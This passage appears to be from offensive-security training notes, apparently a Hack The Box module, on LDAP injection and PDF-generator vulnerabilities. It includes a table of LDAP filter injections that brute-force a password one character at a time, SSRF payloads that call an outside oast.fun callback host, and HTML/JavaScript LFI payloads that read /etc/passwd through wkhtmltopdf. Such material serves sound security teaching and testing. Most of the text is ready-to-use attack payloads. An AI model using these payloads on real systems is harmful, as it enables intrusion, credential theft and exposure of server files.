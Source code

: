 Brute-Force data character-by-character:

|Username|Password|Query|
|---|---|---|
|`htb-stdnt`|`*`|`(&(uid=htb-stdnt)(userPassword=*))`|
|`htb-stdnt`|`p*`|`(&(uid=htb-stdnt)(userPassword=p*))`|
|`htb-stdnt`|`p@*`|`(&(uid=htb-stdnt)(userPassword=p@*))`|
|`htb-stdnt`|`p@s*`|`(&(uid=htb-stdnt)(userPassword=p@s*))`|
|`htb-stdnt`|`p@ss*`|`(&(uid=htb-stdnt)(userPassword=p@ss*))`|
|`htb-stdnt`|`p@ssw*`|`(&(uid=htb-stdnt)(userPassword=p@ssw*))`|
|`htb-stdnt`|`p@ssw0*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0*))`|
|`htb-stdnt`|`p@ssw0r*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0r*))`|
|`htb-stdnt`|`p@ssw0rd*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0rd*))`|
|`htb-stdnt`|`p@ssw0rd`|`(&(uid=htb-stdnt)(userPassword=p@ssw0rd))`|


## PDF Generation Vulnerabilities

#### Determining the PDF Generation Library

```bash
$ exiftool invoice.pdf 
<SNIP>
Creator                         : wkhtmltopdf 0.12.6.1
Producer                        : Qt 4.8.7
<SNIP>
```

#### Server-Side Request Forgery (SSRF) Payloads 

```html
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2">
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
```

#### Local File Inclusion (LFI) Payloads 

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```